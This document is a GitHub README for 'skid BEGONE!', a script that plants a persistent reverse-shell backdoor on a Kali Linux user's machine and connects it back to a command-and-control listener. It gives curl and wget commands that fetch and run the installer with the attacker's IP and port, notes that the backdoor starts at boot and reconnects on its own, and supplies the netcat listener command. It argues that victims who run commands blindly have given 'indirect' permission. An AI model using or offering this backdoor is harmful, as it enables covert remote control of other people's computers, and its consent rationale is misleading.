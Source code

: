 # skid BEGONE!

How to backdoor a script kiddie's Kali Linux install within seconds.

This assumes that the skid is at [peak mt. stupid](DK-effect.png) and thinks that the ping command can DDOS NASA's supercomputers.

For your best enjoyment, please make sure that the skid in this case is running Kali on real hardware.

I hope to see your post on r/masterhacker using my script.

Also **DO NOT use this against people who are not script-kiddies** (or skids, both mean the same). If you use this on let's say your friend who is not an arrogant skid *you'll be the greatest asshole of all time to them*.

If you want to use this for remote administration, consider setting up SSH.

If using a reverse-shell is your only *working* alternative to SSH, then go ahead (as long as you have permission by the owner of the machine).

*Hey, aren't you already contradicting yourself by saying "you need to have permission"?*
Yes I am, absolutely. However, due to the nature of skids (blindly running commands), they would get themselves in such situations anyways, if not worse. You can see it like this: The skid gives you permission indirectly because they'll happily run any command as root anyways.
One day they will learn the hard way...

## Using the backdoor

### Prerequisites

- skid must be a wannabe hacker (see assumption above)
- you must obtain a root reverse-shell
- skid must run Kali (other distros *might* work too)

### Actually running the script (run as root)

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/install.sh > /tmp/install.sh
bash /tmp/install.sh <IP OF THE C&C server> <FREE PORT ON THE C&C SERVER>
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/install.sh -O /tmp/install.sh
bash /tmp/install.sh <IP OF THE C&C server> <FREE PORT ON THE C&C SERVER>
```

By default the backdoor will start alongside other system services. If the service can't connect to the command and control server, it will wait for a few seconds and reconnect immediately after.

By "command and control server" I mean you, the one reading this right now, listening on the port you specified during install of the backdoor, using netcat (here's the command: `nc -vlp <your port>`).

### Uninstalling (run as root)

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/undo.sh | bash
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/undo.sh -O - | bash
```